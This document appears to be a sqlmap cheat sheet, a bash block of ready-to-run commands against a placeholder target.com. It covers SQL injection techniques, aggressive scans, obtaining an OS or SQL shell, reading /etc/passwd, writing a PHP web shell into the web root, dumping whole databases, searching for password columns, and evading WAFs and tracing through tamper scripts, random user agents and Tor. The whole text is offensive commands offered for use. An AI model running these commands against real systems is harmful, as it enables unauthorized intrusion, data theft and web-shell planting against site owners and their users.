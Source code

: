 ```bash

# Techniques and levels
sqlmap -u "http://target.com/page.php?id=1" --technique=BEUST   # All techniques
# B=Boolean, E=Error, U=Union, S=Stacked, T=Time-based
sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3  # Aggressive scan

# Database management system fingerprinting
sqlmap -u "http://target.com/page.php?id=1" --dbms=MySQL        # Assume MySQL
sqlmap -u "http://target.com/page.php?id=1" --fingerprint       # Detailed fingerprint

# OS shell access
sqlmap -u "http://target.com/page.php?id=1" --os-shell          # Get OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-cmd=whoami     # Execute command
sqlmap -u "http://target.com/page.php?id=1" --sql-shell         # SQL shell

# File operations
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# Authentication bypass
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test" --auth-type=Basic --auth-cred="admin:pass"
sqlmap -u "http://target.com/page.php" --auth-type=Digest --auth-cred="user:pass"

# Proxy usage
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://target.com/page.php?id=1" --proxy="socks5://127.0.0.1:9050"  # Tor

# Output options
sqlmap -u "http://target.com/page.php?id=1" -v 3                # Verbose level
sqlmap -u "http://target.com/page.php?id=1" --batch             # Never ask for input
sqlmap -u "http://target.com/page.php?id=1" --flush-session     # Flush session
sqlmap -u "http://target.com/page.php?id=1" --fresh-queries     # Fresh queries

# Evasion techniques
sqlmap -u "http://target.com/page.php?id=1" --random-agent      # Random user agent
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment  # Tamper script
sqlmap -u "http://target.com/page.php?id=1" --delay=2           # Delay between requests

# Practical examples
# Quick vulnerability check
sqlmap -u "http://target.com/product.php?id=1" --batch --dbs

# Full database dump
sqlmap -u "http://target.com/page.php?id=1" -D mydb --dump-all

# Search for specific data
sqlmap -u "http://target.com/page.php?id=1" -D mydb --search -C password

# Scan all parameters
sqlmap -u "http://target.com/search.php?q=test&sort=asc" --batch

# With Burp Suite request
# Save request from Burp to file, then:
sqlmap -r burp_request.txt --batch --level=5 --risk=3

# WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase --random-agent
```

---